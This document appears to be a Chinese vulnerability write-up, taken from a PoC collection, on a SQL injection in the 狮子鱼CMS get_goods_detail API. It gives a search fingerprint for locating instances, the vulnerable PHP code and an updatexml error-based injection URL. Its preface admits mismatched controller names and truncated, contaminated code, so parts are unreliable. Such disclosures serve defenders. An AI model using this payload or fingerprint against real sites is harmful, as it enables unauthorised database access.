


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：same707id/tokenlookup;versionunknown

- **证据待核（1）**：与707正文/代码/payload/图片文件名相同，确认同文转载跨目录重复。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **代码与转录边界（2）**：共享Apigood/Apigoods/ApiController错配、OSSURL污染与代码截断。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **事实待核（3）**：应和另一goods_detail保持不同入口，不能因产品相同全合一个漏洞。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 狮子鱼CMS ApigoodController.class.php SQL注入漏洞

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

## 漏洞描述

狮子鱼CMS ApiController.class.php 参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下


存在漏洞的文件为 **ApigoodsController.class.php** , 关键位置为

```php
 public function get_goods_detail() {
        $id = I('get.id');
        $pin_id = I('get.pin_id', 0);
		
		$token = I('get.token');
		
		$weprogram_token = M('weprogram_token')->field('member_id')->where( array('token' =>$token) )->find();
		$member_id = $weprogram_token['member_id'];
		
		
		 
		
        $need_data = array();
        $sql = "select g.*,gd.description,gd.is_untake_level,level_discount,gd.video_src,gd.video_size_width,gd.vedio_size_height,gd.is_video,
            gd.summary,gd.share_title,gd.activity_summary,gd.tag from " . C('DB_PREFIX') . "goods g," . C('DB_PREFIX') . "goods_description gd where g.goods_id=gd.goods_id and g.goods_id=" . $id;
        $goods = M()->query($sql);
        $pin_model = D('Home/Pin');
        $goods_model = D('Home/Goods');
        $qian = array(
            "/Uploads/image"
        );
		$c_site_url = str_replace('/dan','',C('SITE_URL'));
        $hou = array(
            $c_site_url . "/Uploads/image"
        );
		$goods[0]['video_src'] = C('SITE_URL')."Uploads/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/".$goods[0]['video_src'];
		
        $goods[0]['description'] = str_replace($qian, $hou, $goods[0]['description']);
        $goods[0]['description'] = htmlspecialchars_decode($goods[0]['description']);
        $qian = array(
            "\r\n"
        );
```



漏洞测试为

```plain
https://xxx.xxx.xx.xxx/index.php?s=apigoods/get_goods_detail&id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```




---

> 来源：Threekiii/Awesome-POC
